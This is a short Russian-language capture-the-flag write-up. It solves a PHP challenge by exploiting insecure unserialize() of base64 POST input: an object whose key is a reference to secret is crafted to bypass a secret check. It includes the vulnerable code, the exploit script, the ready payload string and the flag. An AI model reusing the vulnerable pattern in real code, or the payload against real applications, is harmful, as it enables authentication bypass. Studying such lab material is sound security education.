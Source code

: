 # Найди сокровище!
На странице видим кнопку Source. Из исходного кода видим что сервер принимает POST запросы с параметром key. Ожидается сериализованный объект закодированный в base64. После десириализации свойству secret присваивается значение переменной окружения FLAG и key должен совпадать с secret.

``` php
class Treasure {
    public $key;
    public $secret;
}

if (!empty($_POST['key']) && !is_array($_POST['key'])) {
	$treasure = @unserialize(base64_decode($_POST['key']));       if ($treasure !== false) {
		$treasure->secret = getenv('FLAG');
		if ($treasure->key === $treasure->secret) {
			$show_secret = 1;
		}
	}
}
```

Мы можем указать значение key как указатель на secret. Пишем скрипт который возвращает сериализованный объект в base64:
```php
<?php
class Treasure {
    public $key;
    public $secret;
}

$treasure = new Treasure(); 
$treasure->secret = '234';
$treasure->key = &$treasure->secret;
$out = base64_encode(serialize($treasure));

echo "$out";
?>
```

Получаем строку `Tzo4OiJUcmVhc3VyZSI6Mjp7czozOiJrZXkiO3M6MzoiMjM0IjtzOjY6InNlY3JldCI7UjoyO30=` и передаем в значении ключа. Все проверки выполняются, видим флаг на странице.

Флаг - deteact{04546f3944dd0c8ffe854ea5699cf2fd}


